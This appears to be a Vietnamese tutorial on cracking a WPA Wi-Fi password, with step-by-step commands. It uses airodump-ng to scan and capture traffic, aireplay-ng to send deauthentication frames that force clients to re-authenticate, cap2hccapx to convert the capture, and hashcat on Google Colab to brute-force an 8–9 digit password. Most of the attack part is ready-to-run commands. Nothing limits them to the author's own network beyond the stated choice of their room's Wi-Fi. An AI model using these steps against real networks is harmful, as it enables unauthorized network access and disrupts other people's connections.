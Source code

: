 <img src="https://crowi.pionero.io/files/610edd4c1120630068a6a663" height="150px">

Chúng ta đã có 1 monitor là wlan0mon.
Quét tất cả các AP xung quanh: `airodump-ng wlan0mon`.

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a666" height="550px">

Để ý các chỉ số:

- BSSID: Địa chỉ MAC của AP
- #Data: Số dữ liệu đang truyền tải, chọn cái nào càng nhiều càng tốt
- CH: Kênh giao tiếp hiện tại của AP
- ESSID: Tên của AP

Sau khi có thông số trên, ta chọn 1 AP để thực hiện lắng nghe - ở đây mình chọn luôn wifi phòng mình nhé.

`airodump-ng wlan0mon --bssid <BSSID> -c <CH> -w <file_output.cap>`

<img src="https://crowi.pionero.io/files/610ee5451120630068a6a671" height="300px">

Sử dụng aireplay-ng để tấn công gửi các dead-auth cho AP với mục đích khiến AP yêu cầu các Client phải gửi lại xác thực - tức là làm lại quá trình bắt tay 4 bước.

`iw dev wlan0mon set channel <CH> & aireplay-ng --deauth 20 -a <BSSID> wlan0mon`

<img src="https://crowi.pionero.io/files/610ee34e1120630068a6a670" height="500px">

Nếu có lỗi Channel, chạy lại câu lệnh phía trên 1 lần nữa.

Sau khi có 1 Client xác thực lại, chúng ta chú ý góc bên phải, có 1 Handshake.

<img src="https://crowi.pionero.io/files/610edd4c1120630068a6a664" heigh="350px">

Ngừng quá trình lắng nghe bằng Ctrl + C.

Sau khi có file .cap, chúng ta sử dụng cap2hccapx để convert file .cap thành .hccapx phục vụ cho hashcat.
`cap2hccapx.bin <file.cap> <file.hccapx>`

<img src="https://crowi.pionero.io/files/610ee28c1120630068a6a66f">

Sau khi có file hccapx, ta có thể giải mã ở bất kì đâu, chọn máy nào mạnh mạnh có card rời chút thì càng tốt. Ở đây mình chọn Google Colab để giải mã nó luôn :) vừa free lại mạnh nữa chứ.
Tại google colab tải file .hccapx lên.

<img src="https://crowi.pionero.io/files/610ee2561120630068a6a66e">

Cài đặt 1 số thứ cần thiết cho hashcat:
`!apt install cmake build-essential checkinstall -y > /dev/null && git clone https://github.com/hashcat/hashcat.git > /dev/null && cd hashcat && git submodule update --init && make > /dev/null && make install > /dev/null && cd .. && rm hashcat -r`

<img src="https://crowi.pionero.io/files/610ee20f1120630068a6a66d" height="200px">

Sử dụng lệnh sau để bắt đầu chạy hashcat:
`!hashcat -m 2500 -a 3 /content/room_402.hccapx -i --increment-min=8 ?d?d?d?d?d?d?d?d?d`
<img src="https://crowi.pionero.io/files/610edd4d1120630068a6a66a" heigh="350px">
